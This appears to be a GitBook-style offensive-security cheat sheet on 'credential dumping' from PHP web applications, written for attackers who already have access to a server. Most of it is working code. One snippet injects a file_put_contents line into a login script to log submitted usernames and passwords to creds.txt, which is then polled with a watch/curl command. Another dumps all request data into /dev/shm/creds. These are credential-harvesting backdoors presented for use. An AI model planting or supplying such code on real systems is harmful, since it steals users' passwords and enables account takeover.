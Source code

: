 ```yaml
---
icon: key-skeleton
---
```


# Credential Dumping

{% hint style="info" %}
### <mark style="color:red;">**`File-based Credentials Dumping via PHP Injection`**</mark>

<mark style="color:purple;">This technique involves modifying any</mark> <mark style="color:orange;">`authentication-handling`</mark> <mark style="color:purple;">PHP file to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**log**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">user credentials to a file on the server.</mark>

* <mark style="color:purple;">Add the next line after</mark> <mark style="color:orange;">**`<?php`**</mark><mark style="color:purple;">:</mark>&#x20;

{% code overflow="wrap" %}
```php
file_put_contents("creds.txt", $_POST['log']." - ".$_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">The attacker can continuously check the</mark> <mark style="color:orange;">**`creds.txt`**</mark> <mark style="color:purple;">file for new data using a command like this:</mark>

{% code overflow="wrap" %}
```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/creds.txt
```
{% endcode %}

***

### <mark style="color:red;">**`Memory-based Credentials Dumping via PHP Injection`**</mark>

<mark style="color:purple;">This method involves injecting PHP code into an authentication PHP script to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**capture login credentials**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and write them to a</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**temporary memory file**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(</mark><mark style="color:purple;">`/dev/shm`</mark><mark style="color:purple;">).</mark>

* <mark style="color:purple;">The following code to capture the</mark> <mark style="color:orange;">**`$_REQUEST`**</mark> <mark style="color:purple;">data (which includes the</mark> <mark style="color:orange;">**`$_POST`**</mark> <mark style="color:purple;">data from the login form) and write it to a file:</mark>

{% code overflow="wrap" %}
```php
<?php
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/creds", "a");
fwrite($fff, $rrr);
fclose($fff);
```
{% endcode %}

* <mark style="color:purple;">Just</mark> <mark style="color:orange;">**`cat`**</mark> <mark style="color:purple;">the file:</mark>

```sh
cat creds
```
{% endhint %}
